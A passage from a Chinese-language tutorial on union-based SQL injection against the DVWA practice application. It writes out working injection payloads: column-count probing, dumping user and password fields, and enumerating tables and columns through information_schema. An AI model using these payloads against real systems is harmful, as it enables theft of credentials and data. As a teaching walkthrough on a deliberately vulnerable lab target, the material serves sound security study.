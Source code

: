 1' order by 2--+ 正常

1' order by 3--+ 出错

正常页面 



### 联合查询注入获取敏感信息

	跟前面咱们分析的一样，这里只是把查询的数据替换成了联合查询的语句 然后进行获取另一个表的字段或者函数

```mysql
 -1' union select user,password from users-- 
```

![](https://img2023.cnblogs.com/blog/2587631/202212/2587631-20221225232138976-1882168286.png)


我们也可以使用`group_concat（）`函数来进行分组打印

```mysql
-1' union select 1,group_concat(user(),0x3A,version())-- 
```

![](https://img2023.cnblogs.com/blog/2587631/202212/2587631-20221225232149753-1158385166.png)




### 联合查询注入通过information_schema

​	

在黑盒情况下我们是不知道当前数据库里都有哪些表的所以我们先从mysql的information_schema入手进行表的查询

第一个表：

这里的`database（）`函数是来限定查询的表是当前表

```mysql
-1' union select 1,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database() limit 1)-- 
```

第二个表：

```mysql
-1' union select 1,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database() limit 1,2)-- 
```

通过两个表的查询我们知道dvwa中含有的表为`guestbook` 和`users`



### 联合查询注入通过information_schema获取字段

我们知道数据库的字段都存在mysql默认内置库information_schema的columns里，所以我们想要获取当前数据库的字段名字我们可以通过

获取users表里的第一个字段名字 id 

```mysql
-1' union select 1,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 1)-- 
-- 注意这里一定要加上限定 因为你每次查询都是一个字段如果不加会报错
-- Subquery returns more than 1 row
```
